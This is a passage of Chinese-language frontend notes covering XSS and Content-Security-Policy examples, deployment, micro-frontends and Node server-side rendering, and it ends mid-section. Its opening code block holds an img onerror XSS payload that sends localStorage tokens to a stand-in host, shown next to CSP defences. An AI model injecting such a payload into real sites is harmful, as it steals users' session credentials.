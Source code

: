 ```
<img/src=x onerror="(new Image()).src = 'http://a.com?token='+ localStorage.getItem('token')">

Content-Security-Policy：default-src 'self'; img-src https://*; child-src 'none';

<meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src https://*; child-src 'none';">

Content-Security-Policy：default-src 'self'; img-src https://*; child-src 'none';
```

## 部署

* 前后端不同端口
* 后端允许跨域

## micro frontends

* [微前端“容器”——microcosmos实现](https://juejin.im/post/6864381092061773831)
* [qiankun](https://github.com/umijs/qiankun)package rocket Blazing fast, simple and completed solution for micro frontends. https://qiankun.umijs.org/

## 服务端渲染 SSR(Server Side Render)

* 不同于客户端渲染，服务端渲染会在后端把页面 DOM 的结构树转成 String 吐出来，然后到前端（如浏览器）解析渲染。
* 优势
  - SEO: 现在单页面应用由于体验好，广泛流行。但单页应用的做法往往是后端只吐出一个页面的框架，里面没有具体内容，然后前端通过 Ajax 动态拉取内容。这就导致爬虫去访问你的站点时，服务端返回给爬虫的只有一个架子，爬虫无法抓取页面关键词之类等信息。
  - 首屏直出:在用户首次访问的时候不用再看到菊花在那里转呀转 (Loading...) ，首屏就可以看到页面所有内容。另外可以在服务端通过 HTTP 接口合并请求等方式，让页面打开的首屏时间缩短。
* Node 服务端渲染有什么特别？

同构（isomorphic）！我想这个应该是用 Node 做服务端渲染最大的优势。那么什么是同构呢？

其实同构大多是由 isomorphic 单词翻译来的，这个单词含义比较难理解，现在也有很多叫做 universal app。意思差不多，就是说能够实现一套代码在服务端跟客户端同时运行。

假如我们客户端的页面是 React 写的，那么这套代码也能在服务端运行，并进行渲染，这就是同构的概念。同一份代码，运行构建于两端。因为都是 javascript 语法，所以用 Node 做服务器渲染在这方面有天生的优势。

用 Node 做同构有什么难点？

运行环境支持

现在的前端开发，大多数用的是 ES6/7 的语法，然后用 Babel 编译成 ES5/3 后让浏览器运行。 Node 对 ES6/7 的支持并不是十分友好，就算是最新版本的 node，也不还是不支持 ES Module （就是我们常看到的 import 语法引入模块）。所以要达到同一份代码两端运行的目的，就必须磨平运行环境的差异。

那么该如何做呢？答案就是 babel-register。

babel-register 模块会改写 require 命令，为它加上一个钩子。此后，每当使用 require 加载 .js 、 .jsx 、 .es 和 .es6 后缀名的文件，就会先用 Babel 进行转码。当然，这就要求你必须在你服务端入口文件的顶部率先加载这个模块。

资源加载

如果说磨平环境差异还不算困难，那让 Node 支持多种资源类型加载估计是要让你头皮发麻了。 比如说我们现在用 react 开发 app ，app 中必然涉及到 css/scss 、 png/jpg 、 font 等文件的加载吧？我们一般是通过webpack的loader来处理的，那这段代码运行在服务端会怎么样？必然是血崩。。。

node require 默认就只支持加载 .json .js 等几种文件，所以如何保证客户端渲染出来的代码跟服务端渲染出来的代码一致呢（在 react 应用中，react 会检查客户端渲染出来的结构是否跟客户端渲染出来的一致，如果不一致的话，会在客户端重渲染）？这里提供两套思路：
